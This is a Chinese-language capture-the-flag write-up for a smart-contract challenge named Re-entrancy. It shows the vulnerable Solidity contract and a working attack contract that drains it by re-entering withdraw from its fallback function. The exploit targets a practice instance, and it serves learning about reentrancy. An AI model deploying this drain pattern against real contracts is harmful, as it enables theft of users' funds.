



# Re-entrancy

## 题目

目标：这一关的目标是偷走合约的所有资产

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## 分析

重入，老朋友了，具体原理看这里【博客=>09.安全审计=>重入攻击系列】，不做多阐述。

首先我们查看这个合约有多少钱：0.001ETH，即1000000000000000Wei。



那么按照老套路写代码进行攻击

## 攻击合约

```solidity
contract Hack{
    Reentrance public reentrance = Reentrance(0x5435b127B6F9404D2DDd7BE6Ebb61719BF990DFC);

    function attack() public payable{
    	//1.设置msg.value=1000000000000000Wei
    	//2.这一步将存钱1000000000000000Wei
        reentrance.donate.value(0.001 ether)(address(this));
        //3.然后取钱1000000000000000Wei
        reentrance.withdraw(1000000000000000);
    }

    fallback() external payable {
    	//4.进入fallback重入
        if (address(reentrance).balance >= 0.001 ether) {
      	  reentrance.withdraw(1000000000000000);
      }
    }

}
```

## 做题

获取实例，部署，攻击。记得attack的时候, msg.value设置为1000000000000000Wei



通过


